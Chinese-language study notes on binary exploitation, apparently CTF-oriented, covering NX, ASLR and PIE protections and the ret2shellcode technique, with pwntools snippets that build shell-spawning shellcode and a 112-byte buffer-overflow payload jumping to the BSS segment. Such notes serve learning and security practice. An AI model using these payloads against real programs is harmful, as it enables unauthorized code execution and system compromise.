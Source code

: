 - 栈溢出
- 堆溢出
- BBS

# 保护措施

## NX保护

- 通过在内存页的标识中增加“执行”位，可以表示该内存页是否可以执行。

## ASLR

- 系统的防护措施，程序装载时生效：

  > - /proc/sys/kernel/randomize_va_space=0：没有随机化。关闭ASLR
  > - /proc/sys/kernel/randomize_va_space=1：保留随机化。共享库、栈、mmap（）以及VDSO被随机化
  > - /proc/sys/kernel/randomize_va_space=2：完全随机化。通过brk分配的内存空间也被随机化
  >
  > 打开：echo 2 > /proc/sys/kernel/randomize_va_space

## PIE

- 用来随机化ERF文件映像

# ret2shellcode

## 获取shellcode

> 条件：checksec检查出可读可写可执行段

### 方法1

```python
from pwn import *

asm(shellcraft.sh()) #默认32位

context.arch = "amd64"
asm(shellcraft.amd64.sh())
```

## 步骤

- 将shellcode注入全局变量Bss
- 控制程序执行流执行到shellcode

### BSS

```python
from pwn import *

buf2 = 0x804a080
payload = asm(shellcraft.sh()).ljust(112, b'A') #ljust：用A补充字符串长度直到112字节
payload  += p32(buf2)
io.sendline(payload)
io.interactive()
```
